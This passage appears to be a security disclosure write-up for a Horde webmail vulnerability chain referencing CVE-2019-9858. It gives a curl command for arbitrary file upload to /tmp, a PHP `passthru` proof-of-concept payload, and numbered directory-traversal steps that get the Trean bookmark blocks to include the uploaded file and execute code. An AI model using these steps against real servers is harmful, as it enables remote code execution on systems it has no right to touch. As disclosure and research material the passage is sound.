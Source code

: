 Exploiting all this manually can be hard and cumbersome, in the "Exploits" section several scripts are provided to automatize all the needed steps. Follows a detailed description of the single phases of this attack.

[^phar-extension]: Apparently it is not strictly needed to use the `.phar` extension, *any* non-empty extension will cause PHP to treat the file as PHAR if accessed via the `phar://` scheme.

### File upload

Arbitrary file upload in the temp folder can be achieved like follows:

```console
$ curl http://target.com/turba/add.php \
    -F 'object[photo][img][file]=file.ext' \
    -F 'object[photo][new]=@/path/to/some/file' \
    -b 'Horde=COOKIE_HERE' \
    -A 'USER_AGENT_HERE'
```

This places the content of the local file `/path/to/some/file'` to `/tmp/file.ext`.

Note that Horde checks that the user agent is the same as the request that performed the login.

### PHP file inclusion

The Trean application provides two[^three-blocks] blocks (widgets, that users can place in their home screen): `lib/Block/Bookmarks.php` and `lib/Block/Mostclicked.php`. They use a template file to render the bookmarks:

```php
$template = TREAN_TEMPLATES . '/block/' . $this->_params['template'] . '.inc';
// ...
require $template;
```

Since `$this->_params['template']` is controlled by the user (by setting the block preferences), directory traversal can be used to include an arbitrary file in `/tmp`.

The manual steps to achieve the above are:

1. upload a `/tmp/exploit.inc` file as previously discussed, for example:

   ```php
   <?php passthru("id"); die();
   ```

2. make sure to have at least one bookmark (from the top menu click "Others" -> "Bookmarks", then "New Bookmark");

3. from the home page click the "Add Content" button;

4. select either "Bookmarks: Bookmarks" or "Bookmarks: Most-clicked Bookmarks" and click "Add";

5. edit field labeled by "Template" to target the uploaded file, i.e., `../../../../../../../../../../../tmp/exploit` and click "Save"[^manual];

6. navigate back to the home to trigger the vulnerability.

[^three-blocks]: Actually the Git version comes with a third apparently vulnerable block (`Tagsearch.php`) but it is missing in the PEAR and Debian APT versions.

[^manual]: This cannot be done directly from the web page, either intercept the request or use the developer tools of the browser to change the value.

### PHAR loading


[fix]: https://github.com/horde/Form/commit/f5fc41e9d3f1a7bc9371dda5d39ea7629b0030f3
[CVE-2019-9858]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9858
[^phar-unserialization]: See [File Operation Induced Unserialization via the "phar://" Stream Wrapper](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf).
[`phar.readonly`]: http://php.net/phar.readonly